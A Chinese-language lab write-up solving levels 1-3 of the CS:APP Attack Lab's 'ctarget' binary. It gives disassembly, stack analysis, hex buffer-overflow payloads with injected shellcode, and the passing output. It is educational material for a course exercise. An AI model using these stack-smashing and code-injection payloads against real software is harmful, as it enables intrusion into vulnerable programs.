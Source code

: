 # Attack Lab

## 问题描述

【设定】现有两个存在 ***缓冲区溢出 (buffer overflow)*** 风险的 x86-64 可执行文件：

- `ctarget` 可能遭受 ***代码注入 (code injection)*** 攻击（对应第 1~3 关）。
- `rtarget` 可能遭受 ***ROP (return-oriented programming)*** 攻击（对应第 4~6 关）。
- [此处](http://csapp.cs.cmu.edu/3e/target1.tar)可下载这两个文件。本地运行时应开启 `-q` 选项，以避免连接评分服务器。

【任务】利用上述漏洞，植入攻击代码，改变程序行为。[此处](http://csapp.cs.cmu.edu/3e/attacklab.pdf)可下载详细说明。

## `ctarget`

### 第一关

函数 `getbuf()` 的 C 代码和汇编码分别为

```c
unsigned getbuf() {
  char buf[BUFFER_SIZE];
  Gets(buf);
  return 1;
}
```

```nasm
(gdb) disassemble getbuf 
Dump of assembler code for function getbuf:
   0x00000000004017a8 <+0>:     sub    rsp,0x28 ; 40
   0x00000000004017ac <+4>:     mov    rdi,rsp
   0x00000000004017af <+7>:     call   0x401a40 <Gets>
   0x00000000004017b4 <+12>:    mov    eax,0x1
   0x00000000004017b9 <+17>:    add    rsp,0x28
   0x00000000004017bd <+21>:    ret    
End of assembler dump.
```

由此可见：旧栈顶（即 `R[rsp]` 的旧值）位于 `&buf[0]` 后 40 字节处。在调试器中，设断点于 `<+4>` 处，检查始于 `R[rsp]+40` 的 8 字节：

```shell
(lldb) x/1gx $rsp+40
0x5561dca0: 0x0000000000401976
```

此地址值的确为调用者 `test()` 中紧跟在 `call <getbuf>` 后的下一条指令的地址：

```nasm
(gdb) disassemble test 
Dump of assembler code for function test:
   0x0000000000401968 <+0>:     sub    rsp,0x8
   0x000000000040196c <+4>:     mov    eax,0x0
   0x0000000000401971 <+9>:     call   0x4017a8 <getbuf>
   0x0000000000401976 <+14>:    mov    edx,eax
; ...
```

故只需将 `touch1()` 的地址 `0x00000000004017c0` 植入始于 `buf[40]` 的 8 字节，逻辑上相当于在 C 代码中植入以下赋值语句：

```c
buf[40] = 0xc0;
buf[41] = 0x17;
buf[42] = 0x40;
buf[43] = buf[44] = buf[45] = buf[46] = buf[47] = 0x00;
```

具体步骤：

1. 创建含有以下内容（前 40 个字符相对随意，避开 `0x0a` 即 `\n` 即可）的 `exploit.txt` 文件：

   ```c
   /* buf[00,10) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[10,20) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[20,30) */ 30 31 32 33 34 35 36 37 38 39
   /* buf[30,40) */ 30 31 32 33 34 35 36 37 38 39
   c0 17 40 00 00 00 00 00 /* address of touch1() */
   ```

1. 利用 `hex2raw` 将上述文件转化为字符串：

   ```shell
   $ ./hex2raw < exploit.txt > exploit-raw.txt
   ```

1. 利用 *管道* 将 *`hex2raw` 的输出* 绑定到 *`ctarget` 的输入*：

   ```shell
   $ ./ctarget -q -i exploit-raw.txt
   ```

1. 后两步可合并为

   ```shell
   $ cat exploit.txt | ./hex2raw | ./ctarget -q
   ```

最终得以下输出
```
Cookie: 0x59b997fa
Type string:Touch1!: You called touch1()
Valid solution for level 1 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:1:30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 30 31 32 33 34 35 36 37 38 39 C0 17 40 00 00 00 00 00 
```

### 第二关

需要植入的指令为：
```gas
# exploit.s
movl  $0x59b997fa, %edi # cookie
pushq $0x004017ec       # address of touch2()
retq
```
先汇编，再反汇编：
```shell
$ gcc -c exploit.s && objdump -d exploit.o
```
得以下输出：
```
exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   bf fa 97 b9 59          mov    $0x59b997fa,%edi
   5:   68 ec 17 40 00          pushq  $0x4017ec
   a:   c3                      retq
```

为便于调试，按每行 8 字节排列，并以 `0x90` 即 `nop` 指令占位：
```c
/* exploit.txt */
/* 0x5561dc78 */ 90 90 90 90 90 90 90 90
/* 0x5561dc80 */ bf fa 97 b9 59 /* mov  */ 90 90 90
/* 0x5561dc88 */ 68 ec 17 40 00 /* push */ 90 90 90
/* 0x5561dc90 */ c3 /* retq */ 90 90 90 90 90 90 90
/* 0x5561dc98 */ 90 90 90 90 90 90 90 90
/* 0x5561dca0 */ 78 dc 61 55 00 00 00 00 /* 0x5561dca0 - 40 */
```

```shell
$ cat exploit.txt | ./hex2raw | ./ctarget -q
```

最终得以下输出：
```
Cookie: 0x59b997fa
Type string:Touch2!: You called touch2(0x59b997fa)
Valid solution for level 2 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:2:90 90 90 90 90 90 90 90 BF FA 97 B9 59 90 90 90 68 EC 17 40 00 90 90 90 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00 
```

### 第三关

先用 `man ascii` 查到 `59b997fa` 的十六进制表示：

```
35 39 62 39 39 37 66 61
```

与前一关不同，这里不能直接将其写入 `getbuf()` 的帧内，而应将其压入栈内（并补一个空字符），故需植入的指令为：

```gas
# exploit.s
pushq $0x0 # 字符串尾
movabsq $0x6166373939623935, %rdi # 直接压栈无法编译
pushq %rdi                        # 故分作两步
movq  %rsp, %rdi # 设置 touch3() 的实参
pushq $0x4018fa  # touch3() 的地址
retq
```

先汇编，再反汇编，得以下输出：

```shell
$ gcc -c exploit.s && objdump -d exploit.o
```

得以下输出：

```
exploit.o:     file format elf64-x86-64


Disassembly of section .text:

0000000000000000 <.text>:
   0:   48 bf 35 39 62 39 39    movabs $0x6166373939623935,%rdi
   7:   37 66 61 
   a:   57                      push   %rdi
   b:   48 89 e7                mov    %rsp,%rdi
   e:   6a 00                   pushq  $0x0
  10:   68 fa 18 40 00          pushq  $0x4018fa
  15:   c3                      retq
```

将指令编码编入 `exploit.txt` 的前半部分，并确保 `0xc3` 的地址位于 `0x5561dc90` 之前：

```c
/* exploit.txt */
/* 0x5561dc78 */ 6a 00 /* pushq $0x0 */
/* 0x5561dc7a */ 48 bf 35 39 62 39 39 37 66 61 /* movabsq */
/* 0x5561dc84 */ 57 /* pushq %rdi */
/* 0x5561dc85 */ 48 89 e7 /* movq %rsp,%rdi */
/* 0x5561dc88 */ 68 fa 18 40 00 /* pushq $0x4018fa */ 
/* 0x5561dc8d */ c3 /* retq */ 90 90
/* 0x5561dc90 */ 90 90 90 90 90 90 90 90
/* 0x5561dc98 */ 90 90 90 90 90 90 90 90
/* 0x5561dca0 */ 78 dc 61 55 00 00 00 00
```
之所以要这样安排，是因为

- 执行完 `getbuf()` 的 `retq` 指令后，栈顶 `R[rsp]` 位于 `0x5561dca8` 处。
- 执行三次 `pushq` 指令后，栈顶位于 `0x5561dc90` 处。
- 若指令位于栈内，执行时会发生 Segmentation Fault。

最终得以下输出：

```
Cookie: 0x59b997fa
Type string:Touch3!: You called touch3("59b997fa")
Valid solution for level 3 with target ctarget
PASS: Would have posted the following:
        user id bovik
        course  15213-f15
        lab     attacklab
        result  1:PASS:0xffffffff:ctarget:3:6A 00 48 BF 35 39 62 39 39 37 66 61 57 48 89 E7 68 FA 18 40 00 C3 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 90 78 DC 61 55 00 00 00 00
```

